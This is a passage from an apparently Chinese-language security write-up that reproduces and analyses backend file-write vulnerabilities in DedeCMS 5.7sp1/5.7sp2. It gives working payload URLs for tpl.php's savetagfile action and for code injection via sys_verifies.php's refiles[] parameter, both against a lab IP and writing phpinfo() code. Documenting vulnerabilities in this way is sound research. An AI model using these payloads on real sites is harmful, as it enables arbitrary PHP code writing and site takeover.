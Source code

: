 版本=5.7sp2、5.81

#### 漏洞复现

token获取：

访问http://10.10.10.143/Dedecms/dede/index.php

源代码里有token

![](https://hummer-vin.oss-cn-beijing.aliyuncs.com/images/20220405111040.png)



构造payload:

```
http://10.10.10.143/Dedecms/dede/tpl.php?action=savetagfile&filename=123.lib.php&acontent=<?php phpinfo();?>&token=871dcbfab72289fce2c0544f3d78f7a1
```

执行结果如下：

![](https://hummer-vin.oss-cn-beijing.aliyuncs.com/images/20220405111254.png)

创建的文件路径：

http://10.10.10.143/Dedecms/include/taglib/123.lib.php

访问如下：

![](https://hummer-vin.oss-cn-beijing.aliyuncs.com/images/20220405111756.png)

文件成功被写入

#### 漏洞分析

![](https://hummer-vin.oss-cn-beijing.aliyuncs.com/images/20220405101543.png)

\$action=savetagfile时可以将文件保存为.lib.php格式的脚本

其中\$content为文件的内容，\$filewname为文件名

正则表达式要求文件名中至少包含一个字母、数字、"\_"、"\-"

所以测试如下参数：

```action=savetagfile```

```content=<?php phpinfo(); ?>```

```filename=123.lib.php```

253行有一个csrf检测，因此在漏洞利用的时候需要传入一个token参数



### 0x05 sys_verifies后台文件写入

版本：5.7sp1、5.7sp2

#### 漏洞复现

payload

```
http://10.10.10.143/Dedecms/dede/sys_verifies.php?action=getfiles&refiles[]=123&refiles[]=\";phpinfo();die();//
```



```